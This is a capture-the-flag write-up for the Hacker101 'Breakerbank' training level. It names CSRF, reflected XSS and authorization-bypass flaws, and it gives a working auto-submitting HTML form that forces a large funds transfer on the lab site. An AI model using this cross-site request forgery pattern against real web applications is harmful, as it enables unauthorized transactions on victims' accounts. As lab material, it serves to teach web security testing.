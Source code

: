 # Level 0: Breakerbank 

```

		In this level, there are 4 vulnerabilities, falling into the following classes:
		CSRF
		Reflected XSS
		Authorization Bypass/Direct Object Reference

		Have fun!
		
```

## Authentication Bypass

### POST form with any value after editing the page source starting from body 

```javascript
<body onload="javascript:a()"></body>
<script type="text/javascript">function a(){document.getElementById("button").click();}</script>
<h1>Breakerbank</h1>
Your account number: 961<br><br>
<form action="https://levels-a.hacker101.com/levels/0/" method="POST">
    <h2>Transfer Funds</h2><br>
    <input type="input" name="from" value="1"><br>
    <input type="input" name="to" value="961"><br>
    <input type="input" name="amount" value="99999999999"><br><br>
    <input id="button" type="submit" value="Transfer" >
</form>
```

***Upon successful code injection***
![Upon Successful code injection](https://github.com/Isopach/Hacker101/blob/master/img/level0_auth_bypass0.png)

***After POST***
![After POST](https://github.com/Isopach/Hacker101/blob/master/img/level0_auth_bypass1.png)

----
